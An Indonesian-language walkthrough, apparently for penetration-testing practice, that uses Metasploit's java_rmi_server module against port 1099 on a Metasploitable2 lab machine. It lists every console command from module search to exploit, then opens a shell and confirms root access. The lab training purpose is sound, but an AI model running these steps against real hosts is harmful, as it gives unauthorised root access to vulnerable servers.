 # Exploit Port 1099 (Java RMI)
- Buka msfconsole di terminal
```sh
msfconsole
```

- Cari modul untuk exploit Java RMI
```sh
search java_rmi_server
```

- Disini kita gunakan modul `exploit/multi/misc/java_rmi_server` yang ada di list nomor 0 dari hasil pencarian
```sh
use <nomor_modul>
```

- Tampilkan daftar parameter yang dibutuhkan di modul tersebut. Disini kita hanya perlu mengisi parameter `RHOSTS` saja
```sh
show options
```

- Isi parameter `RHOST` dengan IP metasploitable2
```sh
set RHOST <IP_metasploitable2>
```

- Jalankan modul tersebut. Setelah dijalankan exploit berhasil mengakses masuk ke dalam server.
```sh
exploit
```

- Gunakan perintah `sysinfo` untuk melihat versi sistem operasi server. Ketik perintah `shell` untuk masuk ke dalam shell server. Jika diketikkan perintah `whoami` maka kita berhasil dengan user root